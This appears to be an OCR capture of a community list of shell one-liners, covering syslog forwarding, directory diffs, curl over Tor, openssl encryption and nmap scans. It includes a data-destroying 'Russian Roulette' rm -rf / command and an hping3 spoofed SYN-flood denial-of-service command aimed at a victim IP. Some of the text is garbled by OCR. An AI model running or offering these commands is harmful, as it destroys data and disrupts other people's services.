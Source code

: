 $ nohup tail /var/log/murmur.log | perl -ne '/^<>.>[0-9:. -]{24}(\d+ => 
)?(.*)/; $pid=`pgrep -u murmur murmurd | head`; chomp $pid; `logger -p info -t 
"murmurd[$pid]" \\"$2\\"`;' &

Sends log lines from murmur's (the mumble server's) logfile to syslog.

#Title: Diff 2 file struct - Useful for branch diff and jars diff(uncompressed)

$ diff <>(cd A; find -type f|xargs md5sum ) <>(cd B; find -type f | xargs 
md5sum )

This is usefull to diff 2 paths in branches of software, or in different 
versions of a same zip file. So you can get the real file diff.

#Title: Russian Roulette
$ [ $[ $RANDOM % 6 ] == 0 ] && rm -rf / || echo *Click*
WARNING! If you are not feeling lucky, don't run this command!
#Title: Fetch the current human population of Earth

$ curl --silent http://www.census.gov/population/international/ | grep 
wclocknum | sed -r 's@^.*>([0-9,]+)<>.*$@\1@'

#Title: Use curl with a local SOCKS5 proxy (e.g. Tor)

$ turl(){ curl --socks5-hostname localhost:9050 $@ ; }

Routes curl input through a local SOCKS5 proxy; in this case, anonymizes curl 
activity via The Onion Router (Tor) proxy running locally.

#Title: AES file encryption with openssl
$ openssl aes-256-cbc -salt -in secrets.txt -out secrets.txt.enc
To decrypt: openssl aes-256-cbc -d -in secrets.txt.enc -out secrets.txt.new
Optional parameter -a makes output base64 encoded, can be viewed in text editor
or pasted in email
#Title: check your up to date delicious links.
$ curl -k https://Username:Password@api.del.icio.us/v1/posts/all?red=api | 
xml2| \grep '@href' | cut -d\= -f 2- | sort | uniq | linkche cker --stdin 
--complete -v -t 50 -F blacklist

This commands queries the delicious api then runs the xml through xml2, grabs 
the urls cuts out the first two columns, passes through uniq to remove 
duplicates if any, and then goes into linkchecker who checks the links. the 
links go the blacklist in ~/.linkchecker/blacklist. please see the manual pages
for further info peeps. I took me a few days to figure this one out. I how you 
enjoy it. Also don't run these api more then once a few seconds you can get 
banned by delicious see their site for info.
#Title: DOS attack
$ hping3 --rand-source -p 80 -S --flood Victim_ip
Perform a DOS attack from Linux using hping3 
DOS=Denial-of-Service

#!/bin/bash
wget -q -O - checkip.dyndns.org | sed -e 's/[^[:digit:]\|.]//g'#Title: nmap
$ db_nmap -T4 -A -v -v ( TARGET )
$ nmap --script dhcp-discover 192.168.244.0/24
wery usebl
